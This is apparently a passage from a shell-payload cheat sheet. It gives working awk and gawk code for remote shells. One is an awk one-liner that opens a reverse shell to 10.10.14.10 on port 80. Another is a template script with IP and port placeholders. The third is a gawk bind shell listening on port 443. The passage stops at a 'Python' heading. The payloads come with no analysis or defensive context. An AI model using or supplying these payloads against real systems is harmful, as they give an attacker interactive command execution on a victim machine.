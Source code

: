 ```
awk 'BEGIN {s = "/inet/tcp/0/10.10.14.10/80"; while(42) { do{ printf "shell>" |& s; s |& getline c;\ 
if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

USING AWK

```
#!/usr/bin/awk -f
BEGIN {
    s = "/inet/tcp/0/<IP>/<PORT>"
    while(42) {
        do{
            printf "shell>" |& s
            s |& getline c
            if(c){
                while ((c |& getline) > 0)
                print $0 |& s
                close(c)
            }
        } while(c != "exit")
        close(s)
    }
}
```

Using GAWK

```
#!/usr/bin/gawk -f
BEGIN {
        Port    =       443
        Prompt  =       "pwn> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
```

## Python
